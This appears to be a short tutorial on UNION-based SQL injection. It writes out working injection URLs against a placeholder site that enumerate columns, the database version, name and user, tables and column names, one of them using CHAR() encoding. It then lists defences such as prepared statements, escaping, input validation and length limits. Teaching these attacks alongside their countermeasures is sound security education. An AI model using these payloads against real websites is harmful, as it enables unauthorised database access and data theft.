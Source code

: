 find the columns from which data is being fetched onto the current page using

```
http://targetwebsite.com/products.php?id=-1 and 1=2 UNION SELECT ALL 1,2,3,4,5,6
```

lets say that data from column 2 is being fetched onto the current page. Then use version to find the SQL version

```
http://targetwebsite.com/products.php?id=-1 and 1=2 UNION SELECT ALL 1,version(),3,4,5,6
```

we can also get the database name using database()

```
http://targetwebsite.com/products.php?id=-1 and 1=2 UNION SELECT ALL 1,database(),3,4,5,6
```

we can also get the current user using user()

```
http://targetwebsite.com/products.php?id=-1 and 1=2 UNION SELECT ALL 1,user(),3,4,5,6
```

get list of tables using

```
http://targetwebsite.com/products.php?id=-1 and 1=2 UNION SELECT ALL 1,group_concat(table_name),3,4,5,6 from
information_schema.tables where table_schema=database()
```

get the columns using.. use ascii version of the table name

```
http://targetwebsite.com/products.php?prodid=-3 UNION SELECT ALL 1,2,group_concat(column_name),4,5,6 FROM INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=CHAR(117,115,101,114,115);
```

how to protect against SQL injection attacks

1. use bound variables with prepared statements. It works because the parameter values are combined with the compiled statement, not a SQL string.
   SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters you limit the risk of ending up with something you didn't intend.
2. Use provided functions for escaping strings
   Many attacks can be thwarted by simply using the SQL string escaping mechanism
   mysql_real_escape_string() is the preferred function for this
   Will not guard against all attacks
   Consider:
   SELECT fields FROM table WHERE id = 23 OR 1=1
   No quotes here!

3. Check syntax of input for validity. Exclude quotes and semicolons
   Not always possible: consider the name Bill O’Reilly
4. Have length limits on input
   Many SQL injection attacks depend on entering long strings
